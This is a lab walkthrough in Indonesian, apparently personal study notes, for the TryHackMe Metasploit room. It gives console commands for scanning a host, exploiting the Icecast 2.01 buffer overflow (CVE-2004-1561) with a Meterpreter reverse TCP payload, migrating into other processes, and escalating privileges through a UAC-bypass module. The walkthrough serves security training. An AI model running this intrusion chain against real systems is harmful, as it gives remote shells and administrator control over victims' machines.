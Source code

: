 # Memakai Metasploit

Persiapan Metasploit:
```sh
sudo systemctl start postgresql

sudo msfdb init

sudo msfconsole
```

Didalam metasploit:
```sh
db_status

workspace -a intro-metasploit

workspace
```

Search module:
```sh
search

search x86/shell_reverse_tcp

search x86/shell/reverse_tcp

```

## Eksploitasi Vulnerability Icecast TryHackMe
https://tryhackme.com/room/rpmetasploit

Icecast adalah tools untuk internet audio streaming, contoh penggunaanya adalah internet radio.

Icecast pernah memiliki vulnerability Remote Code Execution (RCE)
[CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)  

Buffer overflow dengan cara mengirimkan 32 header HTTP ke server icecast versi 2.01 (hanya bekerja di Windows).

```sh
# Gunakan Nmap pada Metasploit
db_nmap -sV -T4 <IP_TARGET>

# cek isi database
hosts
services
vulns
```

Sekarang set eksploit dan payload.  
```sh
# gunakan file eksploitasi icecast versi 2.01
search icecast
use 0

# set payload, contohnya gunakan meterpreter
set payload windows/meterpreter/reverse_tcp

# lihat isi options
options

# isi yang dibutuhkan
set rhosts <IP_TARGET>
set lhost <IP_KAMU>

# jalankan eksploitasi
exploit
```

Sebelum menggunakan Meterpreter
```sh
# background process
bg

# lihat daftar session
sessions

# berinteraksi dengan session
sessions -i <Id>
```

Menggunakan Meterpreter
```sh
# informasi tentang sistem
sysinfo

# informasi tentang user
getuid

# informasi proses yang berjalan
ps

# berpindah ke proses lain, untuk mencari batu pijakan yang kuat
migrate <PID>

# get help
help
```

Post Exploitation dengan Meterpreter
```sh
# eksekusi post modul Metasploit
run post/windows/gather/checkvm

# exploit suggester
run post/multi/recon/local_exploit_suggester
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```
Exploit suggester juga memberitahukan tingkat keefektifan dari eksploit yang ditampilkan:
- Vulnerable: setelah dicek, target terbukti kuat memiliki vulnerability.
- Appears: target memiliki versi resource yang vulnerable.
- Detected: target memiliki vulnerable service yang sedang beroperasi, namun tidak dapat dicek.

Privilege Escalation
```sh
#background meterpreter
bg

# ambil salah satu informasi dari local_exploit_suggester
use exploit/windows/local/bypassuac_dotnet_profiler

# set options
set session <ID_SESSION>
set lhost <IP_KAMU>

# exploit
exploit

# percobaan migrasi ke proses lain
ps

# cari PID svchost.exe dengan kepemilikan NT Authority
migrate <PID>

# Escalated?
getuid
```


